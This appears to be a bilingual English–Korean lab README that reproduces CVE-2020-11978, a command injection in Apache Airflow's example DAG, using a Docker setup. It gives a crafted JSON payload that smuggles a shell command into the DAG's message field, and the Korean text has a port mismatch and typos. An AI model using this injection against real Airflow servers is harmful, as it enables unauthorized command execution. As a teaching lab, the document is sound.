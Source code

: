 # Apache Airflow Command Injection in Example Dag (CVE-2020-11978)
# Apache Airflow 예제 DAG에서의 명령 주입 취약점 (CVE-2020-11978)
[中文版本(Chinese version)](README.zh-cn.md)
[중국어 버전(Chinese version)](README.zh-cn.md)
Apache Airflow is an open source, distributed task scheduling framework. In the version prior to 1.10.10, there is a command injection vulnerability in the example DAG `example_trigger_target_dag`, which caused attackers to execute arbitrary commands in the worker process.
Apache Airflow는 오픈 소스이며, 분산 작업 예약 프레임워크이다. 버전 1.10.10 이전에는 'example_trigger_target_dag'라는 예제 DAG에서 명령 주입 취약점이 있었는데 이로 인해 공격자가 작업자 프로세스에서 임의의 명령을 실행할 수 있었다.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.
시작되는데 많은 구성 요소가 있기에 지연될 수 있다. 가상 머신을 사용하기 위해서 2GB 이상의 메모리를 준비하라.

References:
참조:
- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## Vulnerability Environment
## 취약점 환경
Execute the following commands to start airflow 1.10.10:
Airflow 1.10.10을 실행하기 위해 다음의 명령어들을 실행하라.
```bash
```bash
#Initialize the database
#데이터베이스 초기화
docker compose run airflow-init

#Start service
#서비스 시작
docker compose up -d
```

## Exploit
## 익스플로잇

Visit `http://your-ip:8080` to see the airflow management terminal, and turn on the `example_trigger_target_dag` flag:
Airflow 관리 터미널을 확인하기 위해 'http://당신의-ip:8000'을 방문하고 'example_trigger_target_dag' 플래그 활성화.

![](1.png)

Click the "triger" button on the right, then input the configuration JSON with the crafted payload `{"message":"'\";touch /tmp/airflow_dag_success;#"}`:
우측에 있는 "triger" 버튼을 누르고 조작된 페이로드`{"message":"'\";touch /tmp/airflow_dag_success;#"}`:를 포함한 JSON 설정을 입력하라.

![](2.png)

Wait a few seconds to see the execution of "success":
"success" 실행을 위해 잠시 기다려라.

![](3.png)

Go to the CeleryWorker container to see the result, `touch /tmp/airflow_dag_success` has been successfully executed:
CeleryWorekr 컨테이너로 이동하여 `touch /tmp/airflow_dag_success'가 성공적으로 실행됨을 확인하라.

```
docker compose exec airflow-worker ls -l /tmp
```

![](4.png)

